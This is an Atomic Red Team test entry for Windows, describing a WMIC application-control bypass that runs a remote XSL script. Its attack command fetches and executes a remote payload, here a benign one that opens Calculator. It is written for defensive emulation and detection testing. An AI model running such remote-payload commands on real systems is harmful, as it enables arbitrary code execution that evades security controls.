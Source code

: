 


<br/>
<br/>

## Atomic Test #4 - WMIC bypass using remote XSL file
Executes the code specified within a XSL script using a remote payload. Open Calculator.exe when test successfully executed, while AV turned off.

**Supported Platforms:** Windows


**auto_generated_guid:** 7f5be499-33be-4129-a560-66021f379b9b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_xsl_file | Remote location of an XSL payload. | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1220/src/wmicscript.xsl|
| wmic_command | WMI command to execute using wmic.exe | string | process list|


#### Attack Commands: Run with `command_prompt`! 


```cmd
wmic #{wmic_command} /FORMAT:"#{remote_xsl_file}"
```






<br/>
